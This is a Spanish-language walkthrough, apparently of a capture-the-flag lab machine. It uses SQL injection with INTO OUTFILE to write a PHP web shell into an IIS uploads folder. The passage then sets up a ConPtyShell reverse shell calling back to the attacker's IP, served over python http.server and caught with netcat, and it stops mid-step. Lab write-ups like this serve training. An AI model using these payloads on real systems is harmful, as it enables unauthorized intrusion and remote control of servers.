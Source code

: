 ### Ganando accesso con SQL Injection {-}

Lo que vamos a intentar hacer, es escribir en un fichero usando la **SQLI**. Esto se puede hacer con el commando
`into outfile`. Como savemos que la web es un IIS la routa por defecto de windows para hostear las webs de IIS es
`C:\inetpub\wwwroot` y hemos encontrado una routa `/uploads` intentamos ver si podemos escribir nuevos ficheros.

```bash
rlwrap python3 sqli_injection.py
[+] Payload : ' union select 1,2,"test",4,5,6 into outfile "C:\inetpub\wwwroot\uploads\test.txt-- -
[+] Payload : ' union select 1,2,"test",4,5,6 into outfile "C:\\inetpub\\wwwroot\\uploads\\test.txt-- -
```

Si vamos a la url `http://10.10.10.167/uploads/test.txt` vemos el fichero creado. Intentamos injectar codigo malicioso

```bash
rlwrap python3 sqli_injection.py
[+] Payload : ' union select 1,2,"<?php echo \"<pre>\" . shell_exec($_REQUEST['cmd']) . \"</pre>\"; ?>",4,5,6 into outfile "C:\inetpub\wwwroot\uploads\s4vishell.php-- -
```

Ya podemos comprobar que podemos ejecutar comandos en la url `http://10.10.10.167/uploads/s4vishell.php?cmd=whoami`. 

Vamos a por ganar accesso al systema

1. Descargamos la nueva full TTY powershell

    ```bash
    git clone https://github.com/antonioCoco/ConPtyShell
    cd ConPtyShell
    stty size
    vi Invoke-ConPtyShell.ps1
    ```

1. Añadimos lo siguiente al final del fichero

    ```bash
    Invoke-ConPtyShell -RemoteIp 10.10.14.15 -RemotePort 443 -Rows 51 -Cols 189
    ```

1. Compartimos un servidor web con python

    ```bash`
    python3 -m http.server 80
    ``

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Enviamos y ejecutamos el ficher Invoke-ConPtyShell.ps1
